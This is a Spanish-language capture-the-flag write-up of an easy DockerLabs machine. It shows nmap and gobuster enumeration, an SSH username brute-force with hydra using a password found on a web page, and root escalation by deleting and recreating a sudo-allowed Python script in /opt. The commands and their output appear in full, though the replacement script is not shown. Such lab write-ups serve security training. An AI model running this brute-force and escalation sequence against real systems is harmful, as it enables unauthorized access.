



[[Writeups]]
#Writeups #Easy #DockerLabs


Comenzamos con un escaneo general de nmap:

```bash
❯ sudo nmap -sS -p- -Pn --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 13:32 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000050s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.94 seconds

```

Vemos que solo hay un servicio http con un ssh, vamos a escanearlos mas profundamente:

```bash
❯ sudo nmap -Pn -p80,22 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-27 13:33 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f9:f6:fc:f7:f8:4d:d4:74:51:4c:88:23:54:a0:b3:af (ECDSA)
|_  256 fd:5b:01:b6:d2:18:ae:a3:6f:26:b2:3c:00:e5:12:c1 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.77 seconds
```

Hacemos una búsqueda de directorios en el servicio http:

```bash
❯ gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt,js,xml
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,js,xml
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 26]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10671]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1323354 / 1323360 (100.00%)
===============================================================
Finished
===============================================================
```

vamos a ver que encontramos en index.php y nos aparece una web solo con este código html:

```html
<h1>JIFGHDS87GYDFIGD</h1>
```

parece una contraseña, investigando mas la web no encuentro nada mas por lo que vamos a intentar hacer un ataque de fuerza bruta con hydra para la contraseña encontrada y una lista de usuarios en el servicio ssh:

```bash
❯ hydra -L /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-27 13:57:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlos   password: JIFGHDS87GYDFIGD
```

Usando la lista de usernames de SecList encontramos que la contraseña es del usuario carlos.

Vamos a entrar:

```bash
❯ ssh carlos@172.17.0.2
carlos@172.17.0.2s password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.5.0-13parrot1-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
carlos@afc0db7b893d:~$ 

```

Estamos dentro, ahora vamos a enumerar los permisos empezando por los permisos Sudo:

```bash
carlos@afc0db7b893d:~$ sudo -l
Matching Defaults entries for carlos on afc0db7b893d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User carlos may run the following commands on afc0db7b893d:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
carlos@afc0db7b893d:~$
```

Encontramos que tenemos permisos root en un archivo python, vamos a ver si podemos escribir sobre el para darnos permisos root:



por el mensaje de abajo podemos ver que no podemos sobrescribir el archivo, la funcionalidad que ya hay parece que hace una copia de un archivo a otro pero vamos a borrar el archivo entero y volver a crearlo con el código que deseamos a ver si asi conseguimos que el sistema nos lo ejecute como root:

```bash
carlos@afc0db7b893d:/opt$ rm script.py
rm: remove write-protected regular file 'script.py'? y
carlos@afc0db7b893d:/opt$ ls

#Vemos que ya no existe el archivo

carlos@afc0db7b893d:/opt$ nano script.py

#Aqui dentro del nano asignamos el siguiente codigo
```



Ahora nos queda ejecutar el binario /usr/bin/python3 con la ruta que nos han dado permisos y que hemos cambiado el archivo a ver que resultados da:

```bash
carlos@afc0db7b893d:/opt$ sudo /usr/bin/python3 /opt/script.py
```

Y obtenemos root:




